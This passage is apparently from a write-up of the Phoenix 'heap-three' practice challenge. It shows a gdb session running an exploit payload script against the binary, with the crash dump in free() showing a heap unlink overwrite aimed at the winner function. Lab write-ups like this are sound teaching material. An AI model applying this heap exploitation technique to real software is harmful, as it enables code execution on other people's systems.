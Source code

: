 Now we change the payload and run the exploit.

```
(gdb) run $(python heap3.py)
Starting program: /opt/phoenix/i486/heap-three $(python heap3.py)

Program received signal SIGSEGV, Segmentation fault.
0x0804994a in free ()
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x080487d5  →  <winner+0> push ebp
$ebx   : 0xffffdcf0  →  0x00000004
$ecx   : 0x0
$edx   : 0x0804c100  →  <_DYNAMIC+156> add BYTE PTR [eax], al
$esp   : 0xffffdc70  →  0x00000000
$ebp   : 0xffffdca8  →  0xffffdcd8  →  0xffffdd78  →  0xffffdef2  →  "_=/usr/local/bin/gdb"
$esi   : 0xffffdd64  →  0xffffde7a  →  "/opt/phoenix/i486/heap-three"
$edi   : 0x4
$eip   : 0x0804994a  →  <free+243> mov DWORD PTR [eax+0x8], edx
$eflags: [carry parity adjust zero SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffdc70│+0x0000: 0x00000000   ← $esp
0xffffdc74│+0x0004: 0x00000028 ("("?)
0xffffdc78│+0x0008: 0x080487d5  →  <winner+0> push ebp
0xffffdc7c│+0x000c: 0x0804c100  →  <_DYNAMIC+156> add BYTE PTR [eax], al
0xffffdc80│+0x0010: 0xfffffffc
0xffffdc84│+0x0014: 0xfffffffc
0xffffdc88│+0x0018: 0xf7e6904c  →  0x42424242
0xffffdc8c│+0x001c: 0xf7f8453e  →  <strcpy+30> add esp, 0x14
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8049941 <free+234>       mov    DWORD PTR [eax+0xc], edx
    0x8049944 <free+237>       mov    eax, DWORD PTR [ebp-0x30]
    0x8049947 <free+240>       mov    edx, DWORD PTR [ebp-0x2c]
 →  0x804994a <free+243>       mov    DWORD PTR [eax+0x8], edx
    0x804994d <free+246>       mov    eax, DWORD PTR [ebp-0x14]
    0x8049950 <free+249>       mov    eax, DWORD PTR [eax+0x2c]
    0x8049953 <free+252>       cmp    DWORD PTR [ebp-0x20], eax
    0x8049956 <free+255>       je     0x80499fc <free+421>
    0x804995c <free+261>       mov    edx, DWORD PTR [ebp-0x20]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "heap-three", stopped, reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804994a → free()
[#1] 0x8048890 → main()
```
